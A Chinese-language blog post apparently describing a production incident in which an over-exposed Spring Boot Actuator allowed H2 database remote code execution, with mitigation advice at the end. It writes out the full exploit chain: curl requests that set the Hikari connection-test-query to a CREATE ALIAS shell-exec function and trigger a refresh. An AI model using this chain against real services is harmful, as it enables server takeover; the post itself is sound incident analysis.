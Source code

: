 ```yaml
---
layout:     post
title:      2023-02-23-SpringBoot Actuator配置不当导致的H2 RCE漏洞
subtitle:   RCE漏洞
date:       2023-02-23
author:     KC
header-img: img/post-bg-debug.png
catalog: true
tags:
    - SpringBoot
    - Actuator
    - RCE漏洞
    - H2 RCE
---
```


> 聊一下由于SpringBoot Actuator配置不当导致的H2 RCE漏洞

### 背景

近期公司生产环境服务器发现了某个SpringBoot服务由于每次获取数据库连接报错导致服务发生了不可用现象,经过一段时间的排查分析发现了该问题与H2 RCE漏洞有关,遂记录下该问题复现的过程以及出现的一些必要条件。


### 漏洞概述
远程代码执行 （RCE） 是一类软件安全缺陷/漏洞。可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

#### 案发现场
![](http://www.kcblog.cn/img/2023-02-23/1.jpg)
项目频繁打印上图所示的报错,导致了该服务触发了Hystrix服务降级,进而导致服务完全不可用。
经过排查发现该项目添加了如下配置

```yaml
management:
  endpoints:
    web:
      exposure:
        include: "*" #暴露所有节点
  endpoint:
    health:
      show-details: ALWAYS  #显示详细信息
```

该配置是SpringBoot Actuator的配置，主要作用是暴露该项目所有的actuator相关的访问端口和访问路径。通过一些特定的端口路径可以直接访问到SpringBoot项目内的各种配置参数和环境变量以及对它们进行修改，这种方式如果使用不当可能会造成信息泄露、H2 RCE漏洞等严重的安全隐患。根据上图中的报错日志基本可以确定是SpringBoot Actuator的配置不当导致了H2 RCE安全漏洞。

#### 问题复现

本地服务器在不更改SpringBoot Actuator配置的情况下部署相同的服务实例,如下图所示
![](http://www.kcblog.cn/img/2023-02-23/2.jpg)
可以看到通过actuator/env端口直接查看到该服务的一些核心配置,如mysql数据库等

###### 发送如下POST请求修改该项目spring.datasource.hikari.connection-test-query的值

```shell
curl --location 'http://192.168.10.60:9095/actuator/env' \
--header 'Content-Type: application/json' \
--data '{
    "name": "spring.datasource.hikari.connection-test-query",
    "value": "CREATE ALIAS EXEC AS '\''String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'\''; CALL EXEC('\''curl 192.168.1.188'\'');"
}'
```

再次刷新actuator/env页面发现spring.datasource.hikari.connection-test-query的值已经被成功修改,这个时候配置并不会立即生效,需要通过刷新接口使配置生效

![](http://www.kcblog.cn/img/2023-02-23/3.jpg)

###### 最后一步，向端点 /actuator/refresh 发送POST请求，使刚才修改的配置生效。

```shell
curl --location --request POST 'http://192.168.10.60:9095/actuator/refresh'
```

接下来随便请求该项目的任意接口执行sql之前都会出现案发现场图中提示的报错，进而导致服务不可用。

#### 原理

> HikariCP中的`connectionTestQuery`配置意义是在从池中给出一个连接之前被执行的query，也就是该属性下配置的query语句。 当攻击者通过Actuator漏洞成功修改了spring.datasource.hikari.connection-test-query属性之后，每次获取数据库连接时都会先执行该属性下配置的sql语句，然后利用SQL语句中的用户自定义函数，进行RCE。
>
> 在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:
>
> ```sql
> CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
> CALL GET_SYSTEM_PROPERTY('java.class.path');
> ```
>
> 仿照这个，创建命令执行的java函数可以如下:
>
> ```java
> String shellexec(String cmd) throws java.io.IOException { 
>     java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
>     if (s.hasNext()) {
>         return s.next();
>     } throw new IllegalArgumentException(); 
> }
> ```
>
> 那么RCE所需的SQL语句即:
>
> ```sql
> CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
> CALL EXEC('curl 192.168.1.188');
> ```

万幸的是我们服务器中没有使用到H2数据库，只是会导致每次执行RCE语句时报错，没有造成太大损失。

#### 总结

尽量不要将SpringBoot服务Actuator的所有端口暴露出来，假如真的要用的话要保证该服务对应的端口不要直接暴露在外网环境中，同时可以开启security功能，配置访问权限验证，类似配置如下：

```properties
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxx
```

